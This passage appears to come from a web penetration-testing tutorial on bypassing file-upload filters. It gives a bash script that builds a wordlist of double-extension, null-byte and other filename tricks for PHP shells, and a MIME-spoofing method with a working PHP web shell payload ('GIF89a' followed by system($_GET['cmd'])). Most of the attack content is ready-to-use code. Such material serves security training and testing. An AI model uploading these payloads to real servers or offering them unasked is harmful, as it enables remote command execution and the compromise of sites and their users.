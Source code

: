 ```bash
# Script for all permutations
for char in '%20' '%0a' '%00' '%0d0a' '/' '.\\' '.' '…' ':'; do
    for ext in '.php' '.php2' '.php3' '.php4' '.php5' '.php6' '.php7' '.phps' '.pht' '.phtm' '.phtml' '.pgif' '.phar' '.hphp'; do
        echo "shell$char$ext.jpg" >> wordlist.txt
        echo "shell$ext$char.jpg" >> wordlist.txt
        echo "shell.jpg$char$ext" >> wordlist.txt
        echo "shell.jpg$ext$char" >> wordlist.txt
    done
done
```

5.  **MIME (Multipurpose Internet Mail Extensions) Type Spoofing**: use tools or manual methods to alter the MIME type of the file being uploaded. Inspecting the initial bytes of a file reveals its File Signature or Magic Bytes. For instance, (GIF87a or GIF89a) signifies a GIF image, while plaintext indicates a Text file. Altering the initial bytes to the GIF magic bytes changes the MIME type to a GIF image, disregarding its remaining content or _extension_. GIF images uniquely start with ASCII printable bytes, making them easy to imitate. The string GIF8 is common to both GIF signatures, simplifying GIF image imitation.

```bash
# Payload code
GIF89a;
<?
system($_GET['cmd']);//or you can insert your complete shell code
?>
// or
GIF8
<?
system($_GET['cmd']); //or you can insert your complete shell code
?>
```

```bash
# Example
echo "GIF8" > text.jpg 
file text.jpg

text.jpg: GIF image data

# Code to Test MIME type of uplaoded file
$type = mime_content_type($_FILES['uploadFile']['tmp_name']);

if (!in_array($type, array('image/jpg', 'image/jpeg', 'image/png', 'image/gif'))) {
    echo "Only images are allowed";
    die();
}
```

![MIME Spoofing](https://www.emmanuelsolis.com/img/php_filters01.png)

MIME Spoofing

